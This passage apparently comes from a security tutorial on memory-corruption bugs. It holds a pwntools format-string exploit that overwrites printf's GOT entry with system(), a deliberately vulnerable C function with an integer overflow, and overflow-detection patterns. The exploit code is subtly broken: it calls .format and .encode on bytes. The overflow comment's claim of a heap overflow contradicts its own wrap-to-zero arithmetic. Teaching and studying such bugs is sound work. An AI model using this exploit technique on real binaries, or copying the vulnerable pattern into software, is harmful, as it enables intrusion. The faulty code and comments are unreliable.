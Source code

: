 **Exploitation example:**

```python
from pwn import *

# Overwrite GOT entry to redirect execution
got_address = 0x601018  # printf@GOT
system_address = 0x7ffff7a52390

payload = p64(got_address)
payload += b"%{}x".format((system_address & 0xFFFF) - 8).encode()
payload += b"%7$hn"  # Write lower 2 bytes

p = process("./vulnerable_binary")
p.sendline(payload)
p.interactive()
```

### Integer Overflow

**Vulnerable code:**

```c
void process_image(int width, int height, char *image_data) {
    int size = width * height;  // Integer overflow!

    if (size < 0) {
        return;  // Insufficient check
    }

    char *buffer = malloc(size);
    memcpy(buffer, image_data, size);  // Heap overflow
}

// Exploit: width=0x10000, height=0x10000
// size = 0x100000000 (wraps to 0 in 32-bit)
```

**Detection patterns:**

```c
// Unsafe arithmetic
int total = user_value1 + user_value2;  // Can overflow
int size = count * sizeof(struct);      // Can overflow

// Safe version
if (user_value1 > INT_MAX - user_value2) {
    // Overflow would occur
    return -1;
}

// Or use compiler builtins
int result;
if (__builtin_add_overflow(a, b, &result)) {
    // Overflow occurred
}
```

---